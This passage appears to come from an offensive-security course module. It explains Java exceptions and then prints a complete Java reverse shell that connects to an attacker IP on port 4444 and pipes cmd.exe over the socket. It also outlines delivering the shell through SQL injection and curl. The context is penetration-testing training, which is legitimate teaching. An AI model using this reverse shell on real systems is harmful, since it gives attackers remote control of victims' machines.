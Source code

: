 We received several compiler errors regarding exceptions that "must be caught or declared to be thrown". When an error occurs in a Java program, the runtime creates an _exception_[5](https://portal.offsec.com/courses/web-200-28380/learning/assembling-the-pieces-web-application-assessment-breakdown-37051/remote-code-execution-37068/obtaining-a-shell-37058#fn-local_id_375-5) object. There are many different types of exceptions, such as the IOException called out in Listing 27. Each exception includes information about what caused the error.

Programmers can handle exceptions inline with a _try_ and _catch_ block[6](https://portal.offsec.com/courses/web-200-28380/learning/assembling-the-pieces-web-application-assessment-breakdown-37051/remote-code-execution-37068/obtaining-a-shell-37058#fn-local_id_375-6) or they can be _thrown_[7](https://portal.offsec.com/courses/web-200-28380/learning/assembling-the-pieces-web-application-assessment-breakdown-37051/remote-code-execution-37068/obtaining-a-shell-37058#fn-local_id_375-7) up one level of scope, back to the code that called the method that caused the error. When a method throws an exception, the original calling code must handle or throw the exception. If a program throws an exception but does not handle it, the program will crash.

In our case, we can add "throws Exception" to our _main()_ method. If our shell crashes, we can always run it again.

```java
...
  public static void main(String[] args) throws Exception {
...
```

full payload:

```java
kali@kali:~$ cat RevShell.java                                                    
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

class RevShell {
    public static void main(String[] args) throws Exception {
        String host="192.168.45.222";
        int port=4444;
        String cmd="cmd.exe";
        Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
    }
}
```

Since we're targeting Windows with this shell, it won't work if we run it locally in our Kali VM. We would need to change "cmd.exe" to "/bin/bash" or "/bin/sh" for it to work on Linux.

Now that we have our reverse shell, we need to get it on the remote server. Let's use a Python HTTP server to host the file and then use our SQL injection payload to download the file with curl and write it to a known location. Next, we can use a second payload to run the file.
